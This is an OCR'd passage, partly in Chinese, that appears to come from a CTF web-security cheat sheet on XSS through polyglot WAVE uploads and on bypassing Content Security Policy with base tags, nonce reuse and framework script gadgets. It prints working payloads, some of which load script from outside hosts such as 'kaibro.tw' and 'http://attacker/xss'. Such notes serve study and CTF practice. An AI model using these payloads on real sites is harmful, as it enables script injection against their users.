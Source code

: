 - 文件XSS
    - Example: PlaidCTF 2018 wave XSS
    - 上传.wave档 (会检查signatures)
      ```
        RIFF`....WAVE...` 
        alert(1); 
        function RIFF(){}
      ```
        - 变成合法的js语法
        - wave在apache mime type中没有被定义
        - `<script src="uploads/this_file.wave">`

## CSP evaluator

https://csp-evaluator.withgoogle.com/

## Bypass CSP

- base
    - 改变资源载入的域，引入恶意的js
    - `<base href ="http://kaibro.tw/">`
    - RCTF 2018 - rBlog

- script nonce
    
    ```
     <p>可控内容<p>
     <script src="xxx" nonce="AAAAAAAAAAA"></script>
    ```

    插入`<script src="http//kaibro.tw/uccu.js" a="`

    ```
     <p><script src="http//kaibro.tw/uccu.js" a="<p>
     <script src="xxx" nonce="AAAAAAAAAAA"></script>
    ```

- Script Gadget
    - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
    - is an **existing** JS code on the page that may be used to bypass mitigations
    - Bypassing CSP strict-dynamic via Bootstrap
        - `<div data-toggle=tooltip data-html=true title='<script>alert(1)</script>'></div>`
    - Bypassing sanitizers via jQuery Mobile
        - `<div data-role=popup id='--><script>alert(1)</script>'></div>`
    - Bypassing NoScript via Closure (DOM clobbering)
        - `<a id=CLOSURE_BASE_PATH href=http://attacker/xss></a>`
    - Bypassing ModSecurity CRS via Dojo Toolkit
        - `<div data-dojo-type="dijit/Declaration" data-dojo-props="}-alert(1)-{">`
    - Bypassing CSP unsafe-eval via underscore templates
        - `<div type=underscore/template> <% alert(1) %> </div>`
    - 0CTF 2018 - h4xors.club2
- google analytics ea
    - ea is used to log actions and can contain arbitrary string
    - Google CTF 2018 - gcalc2
